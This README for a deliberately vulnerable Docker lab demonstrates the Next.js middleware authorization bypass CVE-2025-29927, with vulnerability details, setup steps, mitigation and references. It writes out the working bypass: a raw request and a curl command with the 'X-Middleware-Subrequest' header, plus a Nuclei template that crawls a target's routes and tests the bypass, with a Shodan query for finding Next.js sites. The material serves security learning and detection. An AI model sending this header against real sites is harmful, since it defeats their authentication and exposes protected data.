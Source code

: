 # CVE-2025-29927: Next.js Middleware Authorization Bypass

## Description

This lab demonstrates a critical vulnerability in Next.js middleware that allows attackers to completely bypass security controls through the `x-middleware-subrequest` header manipulation. The vulnerability affects all Next.js versions from 11.1.4 through 15.2.2, impacting applications using middleware for authentication, authorization, or any other security controls.

## Vulnerability Details

- **CVE ID**: CVE-2025-29927
- **CVSS Score**: 9.1 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Affected Versions**: Next.js 11.1.4 - 15.2.2
- **Attack Vector**: Middleware Bypass via x-middleware-subrequest Header
- **Impact**: Authentication Bypass, Authorization Bypass, CSP Bypass, Potential DoS
- **CWE**: CWE-287 (Improper Authentication)

## Lab Setup

### Prerequisites

- Docker
- Docker Compose

### Running the Lab

1. Start the vulnerable application:
   ```bash
   docker-compose up -d
   ```

2. The application will be available at:
   - Main application: http://localhost:3000
   - Protected routes:
     - Dashboard: http://localhost:3000/dashboard
     - Admin Panel: http://localhost:3000/admin
     - Profile: http://localhost:3000/profile
     - API Secret: http://localhost:3000/api/secret

## Vulnerability Exploitation

The vulnerability can be exploited by adding the `x-middleware-subrequest` header with specific values depending on the Next.js version:

### For Next.js 14.0.0 (Lab Version):
```http
GET /admin
Host: localhost:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

You can test this using curl:
```bash
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/admin
```

## Protected Resources

The lab includes several protected resources:
1. `/dashboard` - Protected dashboard page
2. `/admin` - Protected admin panel
3. `/profile` - Protected user profile
4. `/api/secret` - Protected API endpoint

All these routes are protected by middleware and will redirect to `/unauthorized` unless bypassed.

## Nuclei Template

```yaml
id: CVE-2025-29927

info:
  name: Next.js Middleware Bypass
  author: pdteam
  severity: critical
  description: |
    Next.js contains a critical middleware bypass vulnerability affecting versions 11.1.4 through 15.2.2.
    The vulnerability allows attackers to bypass middleware security controls by sending a specially crafted
    'x-middleware-subrequest' header, which can lead to authorization bypass and other security control circumvention.
  reference:
    - https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
    - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
  remediation: |
    Upgrade to Next.js 14.2.25 or 15.2.3 or later.
    If upgrading is not possible, block the x-middleware-subrequest header at the WAF or server level.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cwe-id: CWE-287
  metadata:
    max-request: 1
    shodan-query: html:"/_next/static"
    product: next.js
    vendor: zeit
  tags: cve,cve2025,nextjs,middleware,bypass,auth-bypass

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2) && http(3)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"
    
    matchers:
      - type: word
        part: body
        words:
          - "_next/static"
        internal: true

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        regex:
          - "href=['\"](\\/[^\\.\"']+)['\"]"
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    
    matchers:
      - type: dsl
        dsl:
          - contains_any(to_lower(header), 'x-middleware-rewrite', 'x-middleware-next', 'x-middleware-redirect') && status_code != 200
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    headers:
      X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
    
    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```

## Mitigation

1. Upgrade to patched versions:
   - Next.js 15.2.3 or later
   - Next.js 14.2.25 or later for 14.x users

2. If unable to upgrade, implement a WAF rule or reverse proxy configuration to block requests containing the `x-middleware-subrequest` header.

## Reference

- [Next.js Middleware Request Corruption Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

## Security Notes

This is a deliberately vulnerable application for security research and learning purposes. Do not deploy in production environments.

## Detection

The vulnerability can be detected using the following Nuclei template:
- Template: [CVE-2025-29927.yaml](../../../CVE-2025-29927.yaml)

